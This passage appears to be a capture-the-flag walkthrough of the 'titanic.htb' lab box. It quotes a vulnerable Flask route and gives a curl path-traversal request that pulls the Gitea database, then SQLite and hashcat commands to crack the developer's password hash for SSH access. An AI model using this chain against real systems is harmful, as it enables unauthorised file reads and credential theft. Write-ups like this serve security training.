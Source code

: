 ### AFR

```py
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404
```

Because the `ticket` paramater isn't sanitized or filtered, we can perform directory traversal to read arbitrary files from the filesystem. The Gitea data path is leaked, so we can get the database file from `/home/developer/gitea/data/gitea/gitea.db`, which is originally stored at `/data/gitea/gitea.db` in the container.

```bash
curl 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db' -o gitea.db
```

### Gitea Hash

To crack gitea hashes, we first need to format them properly. This [great article](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes) explains the process and provides a [script](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py) to automate the formatting for use with Hashcat. I will only try to crack `developer` user hash.

```bash
sqlite3 gitea.db "select passwd, salt from user where name = 'developer';" | gitea2hashcat.py
```

Crack it using `hashcat` with the `rockyou.txt` wordlist.

```bash
hashcat -m 10900 '<formatted_hash>' <path_to_rockyou>
```

# Shell as developer

## User Flag

The cracked password should work for accessing SSH as `developer`.

```bash
developer@titanic:~$ cat user.txt
deadbeefd76fdd555e5bb9444fa7fake
```

